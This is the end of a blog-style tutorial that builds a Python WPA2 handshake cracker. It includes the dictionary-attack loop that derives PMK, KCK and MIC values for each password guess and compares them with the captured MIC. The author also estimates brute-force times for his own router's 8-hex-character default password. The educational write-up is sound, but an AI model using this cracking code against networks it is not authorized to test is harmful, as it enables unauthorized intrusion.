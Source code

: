 ```Python
        min_nonce,
        max_nonce,
        b'\x00'
    ])

    for password_guess in PASSWORD_LIST: # try all the passwords
        password_guess = ''.join(password_guess).encode()

        pmk = hashlib.pbkdf2_hmac('sha1', password_guess, SSID.encode(), 4096, 32)
        kck = hmac.new(pmk, message, hashlib.sha1).digest()[:16]
        calculated_mic = hmac.new(kck, eapol_frame_zeroed_mic, hashlib.sha1).digest()[:16]

        if calculated_mic == mic:
            print('The password is: {}'.format(password_guess.decode('ASCII')))
            sys.exit(0)

    print('The password was not found')
    sys.exit(1)
```

At this point all of the code is written! You can find the full Python script
on my GitHub [here](https://github.com/jordanhatcher/python-wpa2-cracker).

## Conclusion
As you can see, it could take many guesses to find the password to the WiFi
network. However, since the format of the default password to my router looks
like it is just 8 hexadecimal characters, that means there are only about 4
billion different combinations to check. Just using this unoptimized script on
my desktop, it would only take ~50 days go through the whole password list at a rate
of about 1000 guesses per second. With some serious optimizations (probably not
using Python for instance), and using
faster hardware or GPUs, a password like this could probably be calculated in
a few hours. In any case, I thought it was cool to see how fast it could be
done with a simple Python script and some research! I had a lot of fun with
this project, and learned a ton about how WiFi works by playing around with it!

Questions or comments? Feel free to email me or send me a message on
[twitter](https://twitter.com/jrdhtc)!

## References
1. [Breaking Down 802.11 Frame][1]
2. [Wireless Pre-Shared Key Cracking (WPA, WPA2)][2]
3. [How exactly does 4-way handshake cracking work?][3]

[1]: https://curiouswaves.blog/2017/10/29/breaking-down-802-11-frame/
[2]: http://www.og150.com/assets/Wireless%20Pre-Shared%20Key%20Cracking%20WPA,%20WPA2.pdf
[3]: https://security.stackexchange.com/questions/66008/how-exactly-does-4-way-handshake-cracking-work
